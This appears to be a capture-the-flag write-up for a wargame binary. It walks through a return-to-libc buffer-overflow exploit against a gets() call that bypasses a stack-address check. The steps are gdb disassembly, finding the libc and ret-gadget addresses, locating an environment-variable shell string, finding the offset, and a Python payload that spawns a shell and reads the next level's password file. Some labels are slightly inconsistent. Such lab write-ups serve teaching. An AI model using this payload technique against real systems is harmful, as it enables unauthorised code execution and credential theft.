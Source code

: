 As seen in the disassembled code, the program uses the gets() function to take user input :

```
gdb ./level02
gdb disass p
```

but this time we also see that check ensures that the return address is not overwritten with an address on the stack:

To check for a buffer overflow, we input a large string exceeding 100 characters:
```
0x80484fb <p+39>:	and    eax,0xb0000000
0x8048500 <p+44>:	cmp    eax,0xb0000000
```


We will bypass this check using a return-to-libc exploit. First, we find the address of the system function in libc:
```
ldd ./level2 | grep libc
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e4e000)
```
Next, we find the address of the ret instruction:
```
=> 0x804853e <p+106>:	ret
```
We export the shell we want to use:
```
$ export SHELL=/bin/sh
```
Then, we write a small program to find the address of environment variables (available in ressoures).
```
$ gcc getenv.c -o getenv
$ ./getenv SHELL
SHELL is at 0xbffff935
```
We need to determine the offset at which the buffer overflows:
```
gdb> pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb> r < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')
gdb> pattern search
Registers contain pattern buffer:
EBP+0 found at offset: 76
EIP+0 found at offset: 80
```
Now, we prepare the payload:
```
$ python -c 'print "a" * 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "DUMM" + "\x35\xf9\xff\xbf"' > /tmp/payload2
$ cat /tmp/payload2 - | ./level2
$ cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```